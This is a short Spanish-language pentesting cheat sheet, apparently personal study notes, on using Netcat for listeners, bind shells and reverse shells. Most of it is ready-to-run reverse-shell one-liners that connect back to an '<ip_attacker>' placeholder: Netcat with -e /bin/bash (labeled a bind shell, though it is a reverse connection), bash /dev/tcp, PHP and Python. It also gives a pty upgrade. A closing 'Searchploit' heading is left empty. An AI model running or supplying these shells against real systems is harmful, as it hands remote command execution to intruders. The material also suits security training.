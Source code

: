 ## Netcat como herramienta de escucha (Command & Scripting Interpreter)

- Para entender como funciona el **tool Netcat**

- Cheatsheet del **tool Netcat**:
![](img/Pasted image 20230531232009.png)

- Para poner Netcat en modo escucha: `nc -lvp <port>`
- Para enviar una peticion a cualquier puerto: `telnet <ip> <port>`
![](img/Pasted image 20230531231745.png)

## Bind shell con Netcat (Command & Scripting Interpreter)

- Para crear un bind shell en un sistema remoto y ejecutar comandos en él

- Para obtener un bind shell en la máquina remota:
	- Primero habilitaremos un listener en la máquina atacante: `nc -lvp <port>`
	- Luego escribiremos el siguiente comando en la máquina objetivo: `nc <ip_attacker> <port> -e /bin/bash` ![](img/Pasted image 20230531232648.png)
	- Si ejecutamos: `python3 -c "import pty;pty.spawn('/bin/bash')"`, **obtenemos una shell completamente funcional**

## Reverse shell con Netcat (Command & Scripting Interpreter)

- Para crear una reverse shell en un sistema remoto y ejecutar comandos en él

- Para crear una reverse shell:
	- Primero habilitaremos un listener en la máquina atacante: `nc -lvp <port>`
	- Luego escribiremos el siguiente comando en la máquina objetivo: `bash -i >& /dev/tcp/<ip_attacker>/<port> 0>&1` ![](img/Pasted image 20230531233246.png)

## Reverse shell sin Netcat (Command & Scripting Interpreter)

- Puedes crear un reverse shell en un sistema remoto y ejecutar comandos en el mismo netcat aunque netcat no esté disponible en el sistema remoto

- Para crear un reverse shell con **php**:
	- Primero habilitaremos un listener en la máquina atacante: `nc -lvp <port>`
	- Luego escribiremos el siguiente comando en la máquina objetivo: `php -r '$sock=fsockopen("<ip_attacker>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'` ![](img/Pasted image 20230531234255.png)
- Para crear un reverse shell con python:
	- Primero habilitaremos un listener en la máquina atacante: `nc -lvp <port>`
	- Luego escribiremos el siguiente comando en la máquina objetivo: `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip_attacker>",<port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`


## Searchploit (Exploitation for Client Execution)
